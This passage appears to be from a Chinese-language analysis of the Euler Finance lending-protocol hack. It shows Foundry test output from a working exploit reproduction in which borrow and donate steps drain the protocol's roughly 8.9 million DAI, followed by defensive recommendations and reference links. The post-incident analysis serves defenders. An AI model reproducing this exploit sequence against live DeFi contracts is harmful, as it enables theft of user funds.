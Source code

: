```
[PASS] testExploit_Euler() (gas: 1799717)
Logs:
  --------------------------------- Pre-work -------------------------------------
  Tx: 0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d
  DAI.balanceOf(EulerProtocol):: 8904507.348306697267428294
  -------------------------------- Start Exploit -----------------------------------
  First borrow:
  eDAI balance:: 215249368.558920172305404396
  dDAI balance:: 200000000.000000000000000000
  Second borrow:
  eDAI balance:: 410930612.703393056219408393
  dDAI balance:: 390000000.000000000000000000
  After donate:
  eDAI balance: 310930612.703393056219408393
  dDAI balance: 390000000.000000000000000000
  -------------------------------- After Exploit ----------------------------------
  DAI.balanceOf(EulerProtocol): 0.000000000000000000
  EulerProtocol loss: 8904507.348306697267428294
```

## 安全建议

1. 借贷协议在涉及用户资金的函数里加入必要的健康检查，在复杂交易（如跨多个市场或资产的交易）中，逐步检查每个步骤的健康因子，确保整个交易过程中用户的健康因子始终处于安全范围内。
2. 清算折扣动态调整的限额，同时可以考虑根据用户的健康因子设置折扣梯度，避免折扣因子在短时间内剧烈波动。

## 参考链接

1. [euler-finance-attack-how-it-happened-and-what-can-be-learned](https://cointelegraph.com/news/euler-finance-attack-how-it-happened-and-what-can-be-learned)
2. https://twitter.com/BlockSecTeam/status/1635262150624305153